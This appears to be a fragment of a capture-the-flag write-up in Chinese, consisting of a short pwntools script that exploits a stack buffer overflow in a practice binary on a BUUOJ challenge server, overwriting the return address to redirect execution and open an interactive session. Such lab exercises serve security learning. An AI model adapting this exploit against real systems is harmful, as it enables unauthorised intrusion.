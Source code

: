 ### 利用python编写exp

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
#p = process('./pwn1')  指本地程序
p = remote('node5.buuoj.cn',26790)
payload = b'a' * (0xf+0x8) + p64(0x401186 + 1) # +1是为了堆栈平衡
p.sendline(payload)
p.interactive()
```